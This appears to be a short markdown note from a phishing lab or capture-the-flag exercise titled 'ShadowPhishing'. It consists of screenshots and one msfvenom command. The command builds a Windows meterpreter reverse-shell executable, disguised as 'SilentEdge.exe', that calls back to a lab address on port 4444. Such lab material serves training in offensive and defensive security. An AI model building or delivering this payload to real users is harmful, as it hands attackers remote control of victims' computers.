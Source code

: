 ![1742257553885](images/ShadowPhishing/1742257553885.png)

![1742257573547](images/ShadowPhishing/1742257573547.png)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.117.X LPORT=4444 -f exe > SilentEdge.exe
```

![1742257601082](images/ShadowPhishing/1742257601082.png)

![1742257698988](images/ShadowPhishing/1742257698988.png)

![1742257625034](images/ShadowPhishing/1742257625034.png)

![1742257642112](images/ShadowPhishing/1742257642112.png)

